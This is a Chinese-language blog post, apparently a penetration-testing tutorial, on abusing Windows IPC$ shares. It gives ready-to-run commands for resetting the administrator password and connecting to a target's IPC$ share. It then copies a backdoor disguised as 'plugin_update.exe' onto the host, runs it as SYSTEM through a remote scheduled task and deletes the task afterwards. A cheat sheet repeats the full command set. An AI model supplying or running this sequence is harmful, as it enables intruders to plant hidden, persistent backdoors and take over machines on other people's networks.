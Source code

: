# [IPC$渗透使用](https://www.cnblogs.com/sstfy/p/10414680.html)



### 简介[#](https://www.cnblogs.com/sstfy/p/10414680.html#1543578800)

IPC$(Internet Process Connection)是共享"命名管道"的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

### 使用条件[#](https://www.cnblogs.com/sstfy/p/10414680.html#448862943)

> 1.开放了139、445端口；
> 2.目标开启ipc$文件共享；
> 3.获取用户账号密码。

### 测试过程[#](https://www.cnblogs.com/sstfy/p/10414680.html#1858413825)

此测试前提是获取了ipc$，
这里测试的时候得到的权限是system，然后创建了一个admin账户，给了administrators权限，但无法复制文件过去，于是就改了administrator账户密码（实战中不建议更改，可读取管理密码后再用读到的密码）。
更改密码：`net user administrator "1qaz@WSX"`

- 1.连接目标ipc$，将后门复制到目标机器上

```
Copynet use \\193.168.1.12\ipc$ /user:administrator "1qaz@WSX"
copy plugin_update.exe \\193.168.1.12\c$\windows\temp\plugin_update.exe
```

[![img](https://img2018.cnblogs.com/blog/981809/201902/981809-20190221191116598-11030526.png)](https://img2018.cnblogs.com/blog/981809/201902/981809-20190221191116598-11030526.png)

- 2.创建自动任务，执行上传的后门程序

```
Copy# 查看目标机器时间
net time \\193.168.1.12
# 创建该时间之后的某个时刻自动执行任务，任务名 plugin_update
schtasks /create /tn "plugin_update" /tr c:\windows\temp\plugin_update.exe /sc once /st 16:32 /S 193.168.1.12 /RU System /u administrator /p "1qaz@WSX"
# 如果不想等，可以立即运行后门程序
schtasks /run /tn "plugin_update" /S 193.168.1.12 /u administrator /p "1qaz@WSX"
# 删除创建的任务
schtasks /F /delete /tn "plugin_update" /S 193.168.1.12 /u administrator /p "1qaz@WSX"
```

[![img](https://img2018.cnblogs.com/blog/981809/201902/981809-20190221191135932-1958618395.png)](https://img2018.cnblogs.com/blog/981809/201902/981809-20190221191135932-1958618395.png)

接收端的目标机器已上线。
[![img](https://img2018.cnblogs.com/blog/981809/201902/981809-20190221191144554-2021989624.png)](https://img2018.cnblogs.com/blog/981809/201902/981809-20190221191144554-2021989624.png)

### 常用命令[#](https://www.cnblogs.com/sstfy/p/10414680.html#1029992543)

```
Copy# 1.连接
net use \\193.168.1.12\ipc$ /user:administrator "1qaz@WSX"
# 2.查看连接情况
net use
# 3.查看目标主机共享资源
net view \\193.168.1.12
# 4.查看目标主机时间
net time \\193.168.1.12
# 5.查看目标主机的NetBIOS用户（自己本机也需开启）
nbtstat -A 193.168.1.12
# 6.删除连接
net use \\193.168.1.12\ipc$ /del
# 7.文件上传下载
copy plugin_update.exe \\193.168.1.12\c$\windows\temp\plugin_update.exe   
（上传到目标的:c\windows\temp\目录下）
copy \\127.0.0.1\c$\test.exe c:\
（下载到本地c盘下）
# 8.创建计划任务
schtasks /create /tn "plugin_update" /tr c:\windows\temp\plugin_update.exe /sc once /st 1 6:32 /S 193.168.1.12 /RU System /u administrator /p "1qaz@WSX"
# 9.立即执行计划任务
schtasks /run /tn "plugin_update" /S 193.168.1.12 /u administrator /p "1qaz@WSX"
# 10.删除计划任务
schtasks /F /delete /tn "plugin_update" /S 193.168.1.12 /u administrator /p "1qaz@WSX"
```

作者： 素时听风

